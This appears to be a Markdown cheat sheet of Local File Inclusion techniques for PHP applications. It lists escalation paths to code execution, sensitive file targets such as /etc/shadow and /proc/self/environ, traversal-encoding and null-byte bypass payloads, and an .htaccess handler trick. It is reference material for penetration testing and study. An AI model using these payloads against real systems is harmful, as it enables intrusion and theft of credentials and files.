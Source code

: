 # Local File Inclusion (LFI)
- RCE
    - [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator)
    - access.log / error.log
    - /proc/self/environ `user-agent`
    - phpinfo `tmp file location`
    - /tmp/sess\_{session\_name} `control session content`
    - [session.upload\_progress](https://blog.orange.tw/2018/10/#session-tragedy)
- Trigger `php`
    - require()
    - require\_once()
    - include()
    - include\_once()
- Stream Wrapper
    - `php://filter/<action><filter>/resource=<file>`

        | action    | filter                   |
        |:----------|:-------------------------|
        | \<empty\> | convert.base64-encode    |
        | read=     | string.rot13             |
        | write=    | zlib.deflate             |
        |           | zlib.inflate             |

        ```
        Multiple Filter
        ---------------
        php://filter/read=convert.base64-encode/
                     read=string.rot13/
                     ...
                     resource=phpinfo.php
        ```

    - `php://input`
    - `php://fd`

- Sensitive Files
    - Source Code
    - Version Contorl
        - [.git](https://github.com/arthaud/git-dumper)
        - .svn
        - .bzr
    - Hidden File
        - [.DS\_Store](https://github.com/lijiejie/ds_store_exp)
        - .index.php.swp
    - Unix
        - /etc/hosts
        - /etc/passwd
        - /etc/shadow
        - /proc/net/[tcp,udp]
        - /proc/net/\*
        - /proc/net/arp
        - /proc/net/fib\_trie
        - /proc/net/route
        - /proc/sched\_debug
        - /proc/self/cwd
        - /proc/self/environ
        - /proc/self/exe
        - /proc/self/fd/[num]
    - Web Server Config Files
        - /etc/apache2/apache2.conf
        - /etc/apache2/sites-available/000-default.conf
        - /etc/nginx/nginx.conf
        - /etc/php/php.ini
- Path Bypass
    - Encoding

        | Encoding                        | Payload   | Decode |
        |:--------------------------------|:----------|:-------|
        | unicode/UTF-8 encoding          | %c1%1c    |        |
        |                                 | %c0%af    |        |
        | unicode/UTF-7 encoding          |           |        |
        | overlong UTF-8 unicode encoding | %c0%2e    | `.`    |
        |                                 | %e0%40%ae | `.`    |
        |                                 | %c0ae     | `.`    |
        |                                 | %c0%af    | `/`    |
        |                                 | %e0%80%af | `/`    |
        |                                 | %c0%2f    | `/`    |
        |                                 | %c0%5c    | `\`    |
        |                                 | %c0%80%5c | `\`    |
        | URL encoding                    | %2e%2e%2f | `../`  |
        |                                 | %2e%2e/   | `../`  |
        |                                 | ..%2f     | `../`  |
        |                                 | %2e%2e%5c | `..\`  |
        | double URL encoding             | %252F     | `/`    |
        |                                 | %255C     | `\`    |
        | 16-bit Unicode encoding         | %u002e    | `.`    |
        |                                 | %u2215    | `/`    |
        |                                 | %u2216    | `\`    |

    - Null Bytes

        > bypass file type checking

        - `../../../../../passwd%00.jpg`
    - Mangled Paths

        > bypass removing traversal sequences

        - `....//`
        - `...\//`
        - `..//..//..\`        

    - Nginx Misconfiguration

        > Nginx off-by-slash fail
        >
        > `http://127.0.0.1/static../settings.py` => `/home/app/static/../settings.py`
        
        ```
        location /static {
          alias /home/app/static/;
        }
        ```

- Extension Bypass
    - pHP
    - pht, phtml, php[3,4,5,7]
    - html, svg
    - Apache2 Feature

        > xxx.abc => run as php file

        ```
        .htaccess
        ---------
        <FilesMatch "abc">
          SetHandler application/x-httpd-php
        </FilesMatch>
        ```
